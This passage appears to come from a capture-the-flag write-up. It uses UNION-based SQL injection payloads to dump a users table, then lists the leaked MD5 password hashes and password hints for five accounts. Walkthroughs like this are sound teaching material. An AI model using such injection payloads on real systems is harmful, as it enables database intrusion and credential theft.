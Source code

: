 We see that we have a table users with the following format:
```sql
CREATE TABLE users ( username text primary key not null, password_hash text not null, hint text not null, bio text not null)
```
The `password_hash` and `hint` fields look interesting, so let's also grab those 
```
input: " UNION SELECT username, hint FROM users;--
       " UNION SELECT username, password_hash FROM users;--
```
![Hashes Dumped!](Images/dump_hashes.png)
![Hints Dumped!](Images/dump_hints.png)

Here's the information that we got
| User  | Password Hash                    | Hint                                                                           | Notes                                                                |
|-------|----------------------------------|--------------------------------------------------------------------------------|----------------------------------------------------------------------|
| noob  | 8553127fedf5daacc26f3b677b58a856 |                                                                                | No hint provided                                                     |
| alice | 530bd2d24bff2d77276c4117dc1fc719 | My phone number (format: 000-000-0000)                                         |                                                                      |
| bob   | 4106716ae604fba94f1c05318f87e063 | My favorite 12 digit number (md5 hashed for extra security) [starts with a 10] | "starts with a 10" added during CTF due to too large of search space |
| carl  | 661ded81b6b99758643f19517a468331 | My favorite Greek God + My least favorite US state (no spaces)                 |                                                                      |
| dania | 58970d579d25f7288599fcd709b3ded3 | الحيوان المفضل لدي (6 أحرف عربية فقط)                                          | Translates to "My Favorite Animal (6 Arabic Characters Only)"        |
